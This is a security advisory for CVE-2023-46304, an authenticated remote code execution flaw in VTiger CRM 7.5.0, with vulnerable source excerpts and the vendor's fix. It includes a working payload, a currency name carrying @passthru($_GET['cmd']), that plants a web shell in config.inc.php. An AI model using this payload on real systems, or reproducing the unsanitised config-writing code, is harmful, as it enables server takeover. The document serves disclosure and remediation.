

# CVE-2023-46304
Authenticated Remote Code Execution in VTiger Open Source CRM v7.5


## Summary
A vulnerability exists in the Users module in the current release of VTiger CRM Open Source
version 7.5.0 which allows an authenticated attacker to write and execute arbitrary PHP code to
config.inc.php.

## Exploit Details
When a user is authenticated in VTiger normally, it checks their setup status to see if this is
a new user that is not fully configured yet. It also checks to see if this is the first user,
meaning an admin who should configure certain global properties. If so they are redirected
to a UserSetup action in the Users module.

```php
$userSetupStatus = Users_CRMSetup::getUserSetupStatus($focus->id);
if ($userSetupStatus) {
    $user = $focus->retrieve_entity_info($focus->id, 'Users');
    $isFirstUser = Users_CRMSetup::isFirstUser($user);
    if($isFirstUser) {
        header('Location: index.php?module=Users&action=UserSetup');
    }
```
*/modules/Users/Authenticate.php, line 112*


In this action there is a check to see if the user has passed a global currency setting ("USA,
Dollars" by default) and saves it using the updateBaseCurrency function.

```php
//Handling the System Setup
$currencyName = $request->get('currency_name');
if(!empty($currencyName)) $userModuleModel->updateBaseCurrency($currencyName);
$userModuleModel->insertEntryIntoCRMSetup($userRecordModel->getId());
//End
```
*/modules/Users/actions/UserSetupSave.php, line 28*


In the updateBaseCurrency function, the provided value is set as the global currency setting
for the entire system in the database and it also calls the updateConfigFile function, which
opens the config file and uses PHP str_replace to replace the existing value with the one
provided.

```php
public function updateConfigFile($currencyName) {

    $currencyName = '$currency_name = \''.$currencyName.'\'';
    //Updating in config inc file
    $filename = 'config.inc.php';
    if (file_exists($filename)) {
        $contents = file_get_contents($filename);
        $currentBaseCurrenyName = $this->getBaseCurrencyName();
        $contents = str_replace('$currency_name =
        \''.$currentBaseCurrenyName.'\'', $currencyName, $contents);
        file_put_contents($filename, $contents);
    }
}
```
*/modules/Users/models/Module.php, line 148*

The user setup action in the current version of VTiger CRM does not check that the user is
actually set up or not, or has permission to change global variables. It only assumes that if
you are accessing that page then you are the person who should be configuring it. So, by
using an existing session cookie and a CSRF token taken from any authenticated page
load, a malicious user can POST in a currency value like:

```USA, Dollars';@passthru($_GET['cmd']);//```


This value is then written blindly to the config.inc.php file as:

```php
//Master currency name
$currency_name = 'USA, Dollars';@passthru($_GET['cmd']);//';
```

Since the config file is loaded on every page, then a malicious user can simply pass a unix
command as the cmd parameter and see output at the top of the page.



## Remediation

This issue was fixed in [this commit](https://code.vtiger.com/vtiger/vtigercrm/-/commit/317f9ca88b6bbded11058f20a1d232717c360d43) where additional validation was added to make sure that malicious currency names could not be entered by users, and instead the value would be pulled from database table.

```php
public function updateBaseCurrency($currencyName) {
		$db = PearDatabase::getInstance();
		$result = $db->pquery('SELECT currency_code, currency_symbol, currency_name FROM vtiger_currencies WHERE currency_name = ?', array($currencyName));
		$num_rows = $db->num_rows($result);
		if ($num_rows > 0) {
			$currency_code = decode_html($db->query_result($result, 0, 'currency_code'));
			$currency_symbol = decode_html($db->query_result($result, 0,'currency_symbol'));
			$currencyName = decode_html($db->query_result($result, 0, 'currency_name')); // rewrite actual from table.
		} else {
			// Invalid currency name.
			return;
		}
		$this->updateConfigFile($currencyName);
		//Updating Database
		$query = 'UPDATE vtiger_currency_info SET currency_name = ?, currency_code = ?, currency_symbol = ? WHERE id = ?';
		$params = array($currencyName, $currency_code, $currency_symbol, '1');
		$db->pquery($query, $params);


	}
```
